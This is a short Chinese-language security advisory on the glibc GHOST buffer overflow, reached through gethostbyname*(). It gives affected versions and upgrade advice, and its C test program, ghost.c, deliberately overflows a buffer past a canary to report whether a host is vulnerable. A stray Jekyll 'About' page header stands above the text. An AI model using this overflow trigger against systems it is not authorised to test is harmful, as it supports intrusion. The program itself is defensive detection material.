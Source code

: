 ```yaml
---
layout: page
title: About
permalink: /about/
---
```


glibc `__nss_hostname_digits_dots()` 存在一个缓冲区溢出的漏洞，可以经过 `gethostbyname*()` 被本地或者远程触发，攻击者可以利用该漏洞执行指令，控制存在漏洞的系统。

发现者以“幽灵”(GHOST)命名此漏洞。

1. 漏洞影响范围
此漏洞影响使用GNU libc 2.2-2.17的Linux系统.

2. 漏洞验证方法
ghost.c

执行漏洞测试程序，如果程序输出vulnerable则说明存在漏洞。 

3. 漏洞修复方法
将libc 升级到最新版本，另外在升级完libc后需要重启系统。

```c  
// ghost.c
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#define CANARY "in_the_coal_mine"

struct {
  char buffer[1024];
  char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };

int main(void) {
  struct hostent resbuf;
  struct hostent *result;
  int herrno;
  int retval;

  /*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/

  size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;

  char name[sizeof(temp.buffer)];
  memset(name, '0', len);
  name[len] = '\0';

  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);

  if (strcmp(temp.canary, CANARY) != 0) {
    puts("vulnerable");
    exit(EXIT_SUCCESS);
  }

  if (retval == ERANGE) {
    puts("not vulnerable");
    exit(EXIT_SUCCESS);
  }

  puts("should not happen");
  exit(EXIT_FAILURE);
}
```
